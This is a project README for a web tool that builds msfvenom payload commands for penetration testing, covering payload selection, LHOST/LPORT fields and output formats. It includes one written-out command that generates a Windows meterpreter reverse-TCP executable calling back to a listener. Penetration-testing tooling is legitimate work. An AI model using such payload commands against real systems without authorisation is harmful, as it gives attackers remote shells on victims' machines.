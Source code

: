 # MSFvenom Command Generator

This project is a simple MSFvenom Command Generator built with HTML, CSS, and JavaScript. It allows users to easily generate msfvenom payload commands by selecting payloads, configuring LHOST and LPORT values, and choosing the desired output format. This tool simplifies the process of crafting msfvenom commands for penetration testing purposes.

## Features

- **Payload Selection**: Choose from various payloads categorized into binaries, scripting, shellcode, and user creation.

- **Dynamic Form Fields**: Automatically update required fields based on the selected payload.

- **Customizable Output**: Select the desired output format (e.g., exe, elf, raw) and specify an output filename.

- **Command Generation**: Generate the msfvenom command dynamically and copy it for use.

## How to Use

1. Follow [this](https://mohitpimoli.github.io/VenomGen/) link.

2. Select the desired payload from the dropdown list.

3. Fill in the required fields (LHOST, LPORT, etc.).

4. Choose the output format and specify a filename.

5. Click the **Generate Command** button to generate the msfvenom command.

6. Copy the generated command and use it in your terminal.

## File Structure

```bash
msfvenom-command-generator/
|-- assets/
|   |-- css/
|       |-- styles.css             # Styles for the interface
|   |-- img/
|       |-- favicon-potion.png     # Favicon icon
|   |-- js/
|       |-- script.js              # JavaScript for dynamic field updates and command generation
|-- index.html                     # Main HTML file
|-- README.md                      # Project documentation
```

## Example

Generated command example for Windows reverse shell:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o shell.exe
```

## Requirements

Any modern web browser (Chrome, Firefox, Edge, etc.).

Basic understanding of msfvenom and penetration testing.

## Contributing

Contributions are welcome! If you find any issues or have feature suggestions, feel free to open an issue or submit a pull request.

## License

This project is licensed under the [MIT License](LICENSE). For more details, refer to the [MIT License](https://opensource.org/license/mit-0) file.

## Disclaimer

For educational and testing purposes only. Misuse of this tool for malicious activities is strictly prohibited
